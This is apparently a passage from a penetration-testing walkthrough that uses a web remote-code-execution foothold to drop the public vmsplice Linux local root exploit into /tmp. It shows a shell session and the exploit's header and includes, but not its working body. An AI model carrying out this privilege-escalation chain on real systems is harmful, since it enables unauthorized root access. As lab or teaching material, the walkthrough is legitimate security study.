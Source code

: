 #include &lt;asm/unistd.h&gt;

#define PIPE_BUFFERS	16
... trimmed for space
</pre>

This is a HTML-formatted exploit for vmsplice, a local root privilege escalation attack against Linux systems. To avoid decoding it, display the contents of the file using the web server RCE vulnerability:


![](pics/8.png)

Copy and paste the exploit code into a file name ending in `.c`:

<pre>
[bob@barney]/var/www/html% exit
[bob@barney html]$ cd /tmp
[bob@barney tmp]$ cat >vmsplice.c
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;